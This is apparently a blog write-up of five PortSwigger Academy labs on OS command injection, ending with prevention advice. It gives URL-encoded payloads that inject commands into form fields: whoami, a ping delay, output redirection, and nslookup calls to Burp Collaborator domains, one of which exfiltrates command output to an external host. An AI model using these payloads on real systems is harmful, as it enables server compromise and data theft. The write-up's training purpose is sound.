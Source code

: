 ```yaml
---
title: Os Command Injection Labs
date: 2022-06-10 12:00:00 -0400
image: 
 src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci0.jpg
 height: 1100
 width: 500
categories: [Web Security, Portswigger Academy]
tags: [web security, labs, owasp, injection]
---
```


OS command injection allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

# OS command injection, simple case

This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

Solution: 

We intercept the option check stock with Burpsuite to see what parameters are being sent by the function.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci1.jpg)

We see that it is passing the productID and storeID parameters, we will use ; to add the `whoami` command at the system level, we can also use | to add another command to the function.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci2.jpg)

We see that it returns the user peter, and the error is due to the fact that whoami is accompanied by another parameter which is the storeID, but we can see the execution of the command in the output.

# Blind OS command injection with time delays

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability to cause a 10 second delay.

Solution: 

Since we know that the vulnerability is present, we must intercept the `feedback request`.


![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci3.jpg)

We see the entered fields, now we will try in each field the following payload which was url encoded followed and before a semicolon so that the system executes it since it is blind.

```bash
%3bping+-c+10+127.0.0.1%3b
```

I tried each field and the one I got a response 10 seconds later was the email field.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci4.jpg)

# Blind OS command injection with output redirection

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:`/var/www/images/`

Solution:

Since we know the writable folder, we will intercept the request after sending a feedback and append the command `whoami`. then redirect the output to a file in the images directory.

`%3bwhoami+>+/var/www/images/whoami.txt%3b`

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci5.jpg)


Using this payload in the name field, we can exploit this vulnerability and retrieve the identity if the machine.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci6.jpg)

We retrieve the user `peter-5ecF3J` accessing to the file `whoami.txt` created before.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci7.jpg)

# Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

Solution:

The same approach as others, we intercept the request and append the payload `%3bnslookup+kh517r226djh7tygiznk82rw6nce03.burpcollaborator.net%3b` next to the mail field and in the burp collaborator windows wait for the response.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci8.jpg)

We received the response, so we have out-of-band command injection.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci9.jpg)

# Blind OS command injection with out-of-band data exfiltration

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

Solution:

Modify the `email` parameter, changing it to something like the following payload: `%3bnslookup+'whoami'zil3gb1836jd20t5u772s4e7pyvojd.burpcollaborator.net%3b` this will exfiltrate the command output data to the burp collaborator client.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci10.jpg)

We receive the output of the command and retrieve the user `peter-wGfYie`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/ci11.jpg)  

# How to prevent OS command injection attacks

By far the most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In virtually every case, there are alternate ways of implementing the required functionality using safer platform APIs.

If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input validation must be performed. Some examples of effective validation include:

-   Validating against a whitelist of permitted values.
-   Validating that the input is a number.
-   Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.